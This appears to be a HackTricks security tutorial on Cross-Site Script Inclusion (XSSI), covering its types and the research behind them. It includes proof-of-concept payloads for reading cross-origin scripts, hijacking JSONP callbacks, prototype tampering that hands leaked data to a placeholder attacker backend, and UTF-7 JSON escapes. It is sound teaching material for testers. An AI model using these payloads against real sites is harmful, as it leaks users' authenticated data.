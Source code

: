 # XSSI (Cross-Site Script Inclusion)

{{#include /banners/hacktricks-training.md}}



## Basic Information

**Cross-Site Script Inclusion (XSSI)** is a vulnerability that arises from the nature of the `script` tag in HTML. Unlike most resources, which are subject to the **Same-Origin Policy (SOP)**, scripts can be included from different domains. This behavior is intended to facilitate the use of libraries and other resources hosted on different servers but also introduces a potential security risk.

### Key Characteristics of **XSSI**:

- **Bypass of SOP**: Scripts are exempt from the **Same-Origin Policy**, allowing them to be included across domains.
- **Data Exposure**: An attacker can exploit this behavior to read data loaded via the `script` tag.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** is particularly relevant for dynamic JavaScript or **JSON with Padding (JSONP)**. These technologies often use "ambient-authority" information (like cookies) for authentication. When a script request is made to a different host, these credentials (e.g., cookies) are automatically included in the request.
- **Authentication Token Leakage**: If an attacker can trick a user's browser into requesting a script from a server they control, they might be able to access sensitive information contained in these requests.

### Types

1. **Static JavaScript** - This represents the conventional form of XSSI.
2. **Static JavaScript with Authentication** - This type is distinct because it requires authentication to access.
3. **Dynamic JavaScript** - Involves JavaScript that dynamically generates content.
4. **Non-JavaScript** - Refers to vulnerabilities that do not involve JavaScript directly.

**The following information is a sumary of [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Check it for further details.

### Regular XSSI

In this approach, private information is embedded within a globally accessible JavaScript file. Attackers can identify these files using methods like file reading, keyword searches, or regular expressions. Once located, the script containing private information can be included in malicious content, allowing unauthorized access to sensitive data. An example exploitation technique is shown below:

```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script>
  alert(JSON.stringify(confidential_keys[0]))
</script>
```

### Dynamic-JavaScript-based-XSSI and Authenticated-JavaScript-XSSI

These types of XSSI attacks involve confidential information being dynamically added to the script in response to a user's request. Detection can be performed by sending requests with and without cookies and comparing the responses. If the information differs, it may indicate the presence of confidential information. This process can be automated using tools like the [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) Burp extension.

If confidential data is stored in a global variable, it can be exploited using similar methods to those used in Regular XSSI. However, if the confidential data is included in a JSONP response, attackers can hijack the callback function to retrieve the information. This can be done by either manipulating global objects or setting up a function to be executed by the JSONP response, as demonstrated below:

```html
<script>
  var angular = function () {
    return 1
  }
  angular.callbacks = function () {
    return 1
  }
  angular.callbacks._7 = function (leaked) {
    alert(JSON.stringify(leaked))
  }
</script>
<script
  src="https://site.tld/p?jsonp=angular.callbacks._7"
  type="text/javascript"></script>
```

```html
<script>
  leak = function (leaked) {
    alert(JSON.stringify(leaked))
  }
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```

For variables not residing in the global namespace, _prototype tampering_ can sometimes be exploited. This technique leverages JavaScript's design, where code interpretation involves traversing the prototype chain to locate the called property. By overriding certain functions, such as `Array`'s `slice`, attackers can access and leak non-global variables:

```javascript
Array.prototype.slice = function () {
  // leaks ["secret1", "secret2", "secret3"]
  sendToAttackerBackend(this)
}
```

Further details on attack vectors can be found in the work of Security Researcher [Sebastian Lekies](https://twitter.com/slekies), who maintains a list of [vectors](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI

Takeshi Terada's research introduces another form of XSSI, where Non-Script files, such as CSV, are leaked cross-origin by being included as sources in a `script` tag. Historical instances of XSSI, such as Jeremiah Grossman’s 2006 attack to read a complete Google address book and Joe Walker’s 2007 JSON data leak, highlight the severity of these threats. Additionally, Gareth Heyes describes an attack variant involving UTF-7 encoded JSON to escape the JSON format and execute scripts, effective in certain browsers:

```javascript
;[
  {
    friend: "luke",
    email:
      "+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-",
  },
]
```

```html
<script
  src="http://site.tld/json-utf7.json"
  type="text/javascript"
  charset="UTF-7"></script>
```

{{#include ../banners/hacktricks-training.md}}


